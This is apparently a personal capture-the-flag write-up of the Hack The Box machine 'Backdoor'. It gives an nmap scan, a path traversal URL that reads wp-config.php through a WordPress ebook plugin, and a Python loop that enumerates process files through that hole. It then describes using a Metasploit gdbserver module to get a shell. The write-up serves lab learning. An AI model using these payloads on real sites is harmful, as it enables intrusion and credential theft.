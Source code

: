 # Backdoor

![Backdoor.png](Backdoor/Backdoor.png)

### 11/20/2021

Default nmap Scan open ports:

```python
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 18:27 -03
Nmap scan report for backdoor.htb (10.10.11.125)
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.52 seconds
```

First contact with the website:

![Untitled](Backdoor/Untitled.png)

Gobuster web directory scan:

![Untitled](Backdoor/Untitled%201.png)

All ports scan:

![Untitled](Backdoor/Untitled%202.png)

Listing wp plugins:

![Untitled](Backdoor/Untitled%203.png)

Vulnerability in the wordpress:

![Untitled](Backdoor/Untitled%204.png)

Vulnerability command to path traversal:

```python
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

WP database user and password:

![Untitled](Backdoor/Untitled%205.png)

Ok to download we must have to increment the size of the LFI and GET the machine files, we can lookup the PORT open in the /proc/id/net/tcp

Like:

In my case, i opened the port 8000, and look the PATH, convert the Hexadecimal to decimal and return the port, with the PID, we can discovery more things about the process. 

![Untitled](Backdoor/Untitled%206.png)

So i make a scrip to get the requests of all process and store it in a file:

```python
import requests

pid = 1337
url  = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/{}/net/tcp"
port = 80

for i in range(2000):
	print("\n\n")
	req =  requests.get(url.format(i))
	print(f"Proccess number: ------ {i} ----- \n\n")
	print(req.text)
```

The next step is grep for the port in hexadecimal, in this case the port 1337.  0539

![Untitled](Backdoor/Untitled%207.png)

Reading more about the return, i note that the output is the same. 

Analyzing more about the sched-debug i think that the open port can be the GDB server

![Untitled](Backdoor/Untitled%208.png)

Ok, i found more options to try return something about the file: so i will get the cmdline

![Untitled](Backdoor/Untitled%209.png)

Yeah, that's it, the running port 1337 is the gdbserver

![Untitled](Backdoor/Untitled%2010.png)

So now we can try search vulnerabilities to exploit the open port;

I found this CVE to explore [https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb_server_exec/](https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb_server_exec/)

Now with the exploit we wait the port open the inject the code:

![Untitled](Backdoor/Untitled%2011.png)

So to the exploit wrok, i change the payload to linux x64 and i got the meterpreter session. 

![Untitled](Backdoor/Untitled%2012.png)

Screens running:

![Untitled](Backdoor/Untitled%2013.png)

Okay searching more about the GNU screens i found a CVE to explore a vulnerability, the current version on the system is:

![Untitled](Backdoor/Untitled%2014.png)

The CVE doesn't works in the machine.

### Privilege Escalation

![Untitled](Backdoor/Untitled%2015.png)